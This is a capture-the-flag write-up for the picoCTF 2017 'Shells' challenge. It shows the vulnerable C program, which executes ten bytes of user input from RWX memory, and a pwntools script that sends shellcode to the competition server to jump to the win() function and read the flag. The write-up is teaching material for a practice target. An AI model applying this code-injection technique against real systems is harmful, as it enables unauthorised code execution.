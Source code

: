 Title: PicoCTF 2017 Lvl2 Shells
Date: 2018-7-27 10:02
Modified: 2018-7-27 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation
Slug: picoCTF_lvl2Shells
Authors: F3real
Summary: How to solve picoCTF Lvl2 Shells

picoCTF is another interesting CTF competition found at [https://2017.picoctf.com/](https://2017.picoctf.com)

We will take a look at one of the binary exploitation challenges, Shells.

>How much can a couple bytes do? Use [shells](https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells) ! [Source](https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells.c). Connect on shell2017.picoctf.com:55049.

First lets, look at source code:

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
~~~

From source code, we can see that we need to call `win` function. In `vuln` we see that program maps memory for user input and sets read/write/execute permission on it. After that it, in this strange looking line of code,

    void (*func)() = (void (*)())stuff;

casts input buffer to `void f()` and assigns it to function pointer. For example if we wanted to cast to something like `int f(char a, int b)` we would use `(int (*)(char,int))`.

First, we need to find the address of `win` function in shells binary, we can use **objdump** for this:

    objdump -d shells -M intel

![objdump disasembly of win function]({static}/images/2018_7_27_Shells.png){: .img-fluid .centerimage}

And we get function address `0x08048540`.

My first idea was just to pass function address but it didn’t work since we need actual assembly code. So let's write some shellcode using **pwntools**:

~~~python
from pwn import *
         
context.arch = 'i386'
context.terminal = 'tmux'

r = remote('shell2017.picoctf.com', 55049)
print r.recvuntil('Give me 10 bytes:')
payload = asm('mov eax, 0x08048540') + asm('call eax')
r.send(payload)
print r.recvall()
r.close()
~~~

We just set the context so **pwntools** knows arch of the system, connect to the server and send our shellcode:

    move eax, 0x08048540
    call eax

We call from register since in that case value is interpreted as an absolute address offset instead of relative (if we just used `call 0x08048540`).

Also, we could have just used push/ret shellcode.

    push 0x08048540
    ret

In any case, running our python scripts gives us the flag :D

